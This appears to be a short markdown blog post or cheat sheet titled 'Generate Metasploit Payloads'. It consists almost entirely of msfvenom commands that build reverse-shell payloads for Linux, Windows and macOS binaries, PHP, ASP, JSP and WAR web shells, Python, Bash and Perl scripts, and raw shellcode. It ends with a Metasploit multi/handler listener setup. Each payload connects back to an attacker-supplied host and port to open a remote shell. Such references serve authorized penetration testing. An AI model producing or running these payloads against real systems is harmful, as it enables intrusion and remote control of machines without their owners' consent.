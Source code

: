 ```yaml
---
title: Generate Metasploit Payloads
date: 2016-05-27 13:27:59
tags: Metasploit Payloads

---
```


### List payloads
```
> msfvenom -l
```
### Binaries
#### Linux
```
> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```
<!--more-->
#### Windows
```
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```
#### Mac
```
> msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```
### Web Payloads
#### PHP
```
> msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
> cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
#### ASP
```
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```
#### JSP
```
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```
#### WAR
```
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```
### Scripting Payloads
#### Python
```
> msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```
#### BASH
```
> msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```
#### Perl
```
> msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```
### Shellcode
#### Linux Based Shellcode
```
> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
#### Windows Based Shellcode

```
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
#### Mac Based Shellcode
```
> msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
### Handlers
```
> msfcosole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD <Payload name>
msf exploit(handler) > set LHOST <LHOST value>
msf exploit(handler) > set LPORT <LPORT value>
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j -z
```
